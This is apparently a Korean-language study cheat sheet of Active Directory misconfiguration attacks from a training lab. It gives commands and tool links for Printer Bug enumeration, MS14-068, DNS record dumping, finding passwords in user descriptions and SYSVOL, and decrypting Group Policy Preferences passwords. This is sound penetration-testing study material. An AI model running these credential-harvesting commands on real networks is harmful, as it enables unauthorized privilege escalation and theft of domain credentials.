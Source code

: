 ```

<br/><br/>
# 기타 잘못된 구성

## 1. Exchange-AD-Privesc
- 참고 : https://github.com/gdedrouas/Exchange-AD-Privesc?tab=readme-ov-file

<br/><br/>
## 2. Printer Bug
- 도구1 : http://web.archive.org/web/20200919080216/https://github.com/cube0x0/Security-Assessment
- 도구2 : https://github.com/NotMedic/NetNTLMtoSilverTicket

### MS-PRN Printer Bug 열거
```
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

<br/><br/>
## 3. MS14-068
- 도구 : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek

<br/><br/>
## 4. LDAP 자격 증명 스니핑
- 참고 : https://grimhacker.com/2018/03/09/just-a-printer/

<br/><br/>
## 5. DNS 레코드 열거
- 참고 : https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/

### adidnsdump 사용
```adidnsdump -u inlanefreight\\forend ldap://172.16.5.5```

### -r 옵션을 사용하여 알 수 없는 레코드 Resolve
```adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r```

### records.csv 파일에서 숨겨진 레코드 찾기
```head records.csv```

<br/><br/>
## 6. 기타

### Get-Domain User를 사용하여 Description 필드에서 비밀번호 찾기
```Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}```

### Get-DomainUser를 사용하여 PASSWD_NOTREQD 설정 확인
```Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol```

### SMB 공유 및 SYSVOL 스크립트의 자격 증명
```ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts```

<br/><br/>
## 7. Group Policy Preferences (GPP) Passwords

###  SYSVOL 공유에 Groups.xml 보기

### gpp-decrypt로 비밀번호 해독하기
```gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE```

### CrackMapExec를 사용하여 GPP 비밀번호 찾기 및 검색
```crackmapexec smb -L | grep gpp```

### CrackMapExec의 gpp_autologin 모듈 사용
- 참고 : https://www.infosecmatter.com/crackmapexec-module-library/?cmem=smb-gpp_autologin
```